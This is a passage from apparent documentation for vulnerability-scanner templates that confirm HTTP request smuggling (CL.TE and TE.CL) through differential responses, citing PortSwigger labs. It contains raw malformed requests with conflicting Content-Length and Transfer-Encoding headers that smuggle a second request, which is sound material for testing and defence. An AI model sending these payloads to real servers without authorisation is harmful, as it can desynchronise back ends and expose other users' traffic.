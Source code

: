 ````markdown
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked

      0

      GET /404 HTTP/1.1
      X-Ignore: X
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked

      0

      GET /404 HTTP/1.1
      X-Ignore: X

    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```

## Differential responses based TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-te-cl-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked

      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15

      x=1
      0
    - |+
      POST / HTTP/1.1
````